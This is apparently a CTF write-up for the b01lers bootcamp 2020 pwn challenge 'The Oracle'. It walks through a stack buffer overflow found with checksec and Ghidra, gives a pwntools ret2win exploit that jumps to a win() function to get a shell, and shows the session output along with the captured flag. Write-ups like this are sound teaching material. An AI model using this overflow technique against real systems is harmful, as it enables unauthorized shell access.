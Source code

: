 # b01lers bootcamp CTF 2020

## The Oracle

> 100
>
> Would you still have broken it if I hadn't said anything?
>
> `nc chal.ctf.b01lers.com 1015`
> 
> [theoracle](theoracle)  
> [theoracle.c](theoracle.c)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _ret2win_ _rop_


## Summary

Basic _ret2win_.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Anything goes but shellcode.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char local_18 [16];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  puts("Know Thyself.");
  fgets(local_18,0x80,stdin);
  return 0;
}

void win(void)
{
  char *local_18;
  char *local_10;
  
  local_10 = (char *)0x0;
  local_18 = (char *)0x0;
  execve("/bin/sh",&local_10,&local_18);
  return;
}
```

> Yes the source is included, but only Ghidra tells me I need to write `0x18` (`local_18`) bytes to get to the return address.

So, `fgets` will _get_ up to `0x80` bytes for a buffer that is `0x18` bytes from the return address on the stack.  With no PIE, setting up a _win_ is easy.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./theoracle')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('chal.ctf.b01lers.com', 1015)

payload  = 0x18 * b'A'
payload += p64(binary.sym.win)

p.sendlineafter('Know Thyself.\n',payload)
p.interactive()
```

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/b01lersbootcampctf2020/the_oracle/theoracle'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to chal.ctf.b01lers.com on port 1015: Done
[*] Switching to interactive mode
$ id
uid=1000(theoracle) gid=1000(theoracle) groups=1000(theoracle)
$ ls -l
total 36
-r-xr-x--- 1 root theoracle    86 Oct  2 18:33 Makefile
-r--r----- 1 root theoracle    45 Oct  2 18:33 flag.txt
-r-xr-x--- 1 root theoracle 16936 Oct  3 04:09 theoracle
-r-xr-x--- 1 root theoracle   330 Oct  2 18:33 theoracle.c
-r-xr-x--- 1 root theoracle    47 Oct  2 18:33 wrapper.sh
$ cat flag.txt
flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}
```
